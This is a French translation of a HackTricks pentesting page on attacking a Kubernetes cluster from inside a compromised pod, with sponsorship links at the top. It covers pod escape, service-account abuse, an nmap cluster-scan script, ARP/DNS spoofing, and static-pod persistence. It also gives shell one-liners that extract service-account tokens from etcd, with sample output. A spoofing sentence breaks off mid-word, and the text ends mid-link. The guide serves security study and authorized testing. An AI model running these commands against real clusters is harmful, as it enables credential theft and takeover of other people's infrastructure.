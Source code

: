# Attaquer Kubernetes depuis l'intérieur d'un Pod

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous voulez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## **Évasion de Pod**

**Si vous avez de la chance, vous pourrez peut-être vous échapper vers le nœud :**

![](https://sickrov.github.io/media/Screenshot-161.jpg)

### Évasion du pod

Pour essayer de s'échapper du pod, vous devrez peut-être **escalader les privilèges** en premier lieu, certaines techniques pour le faire :

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation" %}

Vous pouvez vérifier ces **évasions de docker pour essayer de vous échapper** d'un pod que vous avez compromis :

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout" %}

### Abus de privilèges Kubernetes

Comme expliqué dans la section sur **l'énumération de Kubernetes** :

{% content-ref url="kubernetes-enumeration.md" %}
[kubernetes-enumeration.md](kubernetes-enumeration.md)
{% endcontent-ref %}

Généralement, les pods sont exécutés avec un **jeton de compte de service** à l'intérieur d'eux. Ce compte de service peut avoir des **privilèges attachés** que vous pourriez **abuser** pour **passer** à d'autres pods ou même pour **s'échapper** vers les nœuds configurés à l'intérieur du cluster. Vérifiez comment dans :

{% content-ref url="abusing-roles-clusterroles-in-kubernetes/" %}
[abusing-roles-clusterroles-in-kubernetes](abusing-roles-clusterroles-in-kubernetes/)
{% endcontent-ref %}

### Abus de privilèges Cloud

Si le pod est exécuté à l'intérieur d'un **environnement cloud**, vous pourriez être en mesure de **fuir un jeton depuis le point de terminaison de métadonnées** et d'escalader les privilèges en l'utilisant.

## Recherche de services réseau vulnérables

Comme vous êtes à l'intérieur de l'environnement Kubernetes, si vous ne pouvez pas escalader les privilèges en abusant des privilèges actuels des pods et que vous ne pouvez pas vous échapper du conteneur, vous devriez **rechercher des services potentiellement vulnérables.**

### Services

**À cette fin, vous pouvez essayer d'obtenir tous les services de l'environnement Kubernetes :**

```
kubectl get svc --all-namespaces
```

Par défaut, Kubernetes utilise un schéma de mise en réseau plat, ce qui signifie que **tout pod/service à l'intérieur du cluster peut communiquer avec les autres**. Les **espaces de noms** à l'intérieur du cluster **n'ont pas de restrictions de sécurité réseau par défaut**. Tout le monde dans l'espace de noms peut communiquer avec d'autres espaces de noms.

### Balayage

Le script Bash suivant (pris dans un [atelier Kubernetes](https://github.com/calinah/learn-by-hacking-kccn/blob/master/k8s_cheatsheet.md)) installera et analysera les plages d'adresses IP du cluster Kubernetes :

```bash
sudo apt-get update
sudo apt-get install nmap
nmap-kube () 
{ 
    nmap --open -T4 -A -v -Pn -p 80,443,2379,8080,9090,9100,9093,4001,6782-6784,6443,8443,9099,10250,10255,10256 "${@}"
}

nmap-kube-discover () {
    local LOCAL_RANGE=$(ip a | awk '/eth0$/{print $2}' | sed 's,[0-9][0-9]*/.*,*,');                                                                  
    local SERVER_RANGES=" ";
    SERVER_RANGES+="10.0.0.1 ";
    SERVER_RANGES+="10.0.1.* ";
    SERVER_RANGES+="10.*.0-1.* ";
    nmap-kube ${SERVER_RANGES} "${LOCAL_RANGE}"
}
nmap-kube-discover
```

Consultez la page suivante pour apprendre comment vous pourriez **attaquer des services spécifiques à Kubernetes** pour **compromettre d'autres pods/tout l'environnement** :

{% content-ref url="pentesting-kubernetes-services.md" %}
[pentesting-kubernetes-services.md](pentesting-kubernetes-services.md)
{% endcontent-ref %}

### Sniffing

Dans le cas où le **pod compromis exécute un service sensible** où d'autres pods doivent s'authentifier, vous pourriez être en mesure d'obtenir les informations d'identification envoyées par les autres pods en **sniffant les communications locales**.

## Spoofing de réseau

Par défaut, des techniques telles que le **spoofing ARP** (et grâce à cela, le **spoofing DNS**) fonctionnent dans le réseau Kubernetes. Ensuite, à l'intérieur d'un pod, si vous avez la **capacité NET\_RAW** (qui est là par défaut), vous pourrez envoyer des paquets réseau personnalisés et effectuer des **attaques MitM via le spoof
### Vol de etcd

Si vous pouvez spécifier le [**nodeName**](https://kubernetes.io/docs/tasks/configure-pod-container/assign-pods-nodes/#create-a-pod-that-gets-scheduled-to-specific-node) du noeud qui exécutera le conteneur, obtenez un shell à l'intérieur d'un nœud de plan de contrôle et obtenez la base de données **etcd** :

```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

Les nœuds de plan de contrôle ont le **rôle de maître** et dans les **clusters gérés dans le cloud, vous ne pourrez rien exécuter dedans**.

#### Lire les secrets d'etcd

Si vous pouvez exécuter votre pod sur un nœud de plan de contrôle en utilisant le sélecteur `nodeName` dans la spécification du pod, vous pourriez avoir un accès facile à la base de données `etcd`, qui contient toute la configuration du cluster, y compris tous les secrets.

Voici une méthode rapide et sale pour récupérer des secrets d'`etcd` s'il est en cours d'exécution sur le nœud de plan de contrôle sur lequel vous vous trouvez. Si vous voulez une solution plus élégante qui lance un pod avec l'utilitaire client `etcdctl` et utilise les informations d'identification du nœud de plan de contrôle pour se connecter à etcd où qu'il soit en cours d'exécution, consultez [cet exemple de manifeste](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) de @mauilion.

**Vérifiez si `etcd` est en cours d'exécution sur le nœud de plan de contrôle et voyez où se trouve la base de données (Ceci est sur un cluster créé avec `kubeadm`)**

```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```

Sortie :

```bash
data-dir=/var/lib/etcd
```

**Afficher les données dans la base de données etcd :**

```bash
strings /var/lib/etcd/member/snap/db | less
```

**Extraire les jetons de la base de données et afficher le nom du compte de service**

```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```

**Même commande, mais avec quelques greps pour ne retourner que le jeton par défaut dans l'espace de noms kube-system**

```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```

Sortie :

```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```

### Persistance des pods statiques/miroirs

Les _pods statiques_ sont gérés directement par le démon kubelet sur un nœud spécifique, sans que le serveur API ne les observe. Contrairement aux pods gérés par le plan de contrôle (par exemple, un déploiement); à la place, le **kubelet surveille chaque pod statique** (et le redémarre s'il échoue).

Par conséquent, les pods statiques sont toujours **liés à un seul kubelet** sur un nœud spécifique.

Le **kubelet essaie automatiquement de créer un pod miroir sur le serveur API Kubernetes** pour chaque pod statique. Cela signifie que les pods en cours d'exécution sur un nœud sont visibles sur le serveur API, mais ne peuvent pas être contrôlés à partir de là. Les noms de pod seront suffixés avec le nom d'hôte du nœud avec un tiret en tête.

{% hint style="danger" %}
Le **`spec` d'un pod statique ne peut pas faire référence à d'autres objets API** (par exemple, ServiceAccount, ConfigMap, Secret, etc. Vous ne pouvez donc pas abuser de ce comportement pour lancer un pod avec un serviceAccount arbitraire dans le nœud actuel pour compromettre le cluster. Mais vous pourriez utiliser cela pour exécuter des pods dans différents espaces de noms (au cas où cela serait utile pour une raison quelconque).
{% endhint %}

Si vous êtes à l'intérieur de l'hôte du nœud, vous pouvez le faire créer un **pod statique à l'intérieur de lui-même**. C'est assez utile car cela pourrait vous permettre de **créer un pod dans un espace de noms différent** comme **kube-system**.

Pour créer un pod statique, la [**documentation est d'une grande aide**](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/). Vous avez essentiellement besoin de 2 choses :

* Configurez le paramètre **`--pod-manifest-path=/etc/kubernetes/manifests`** dans le **service kubelet**, ou dans la **configuration kubelet** ([**staticPodPath**](https://kubernetes.io/docs/reference/config-api/kubelet-config.v1beta1/#kubelet-config-k8s-io-v1beta1-KubeletConfiguration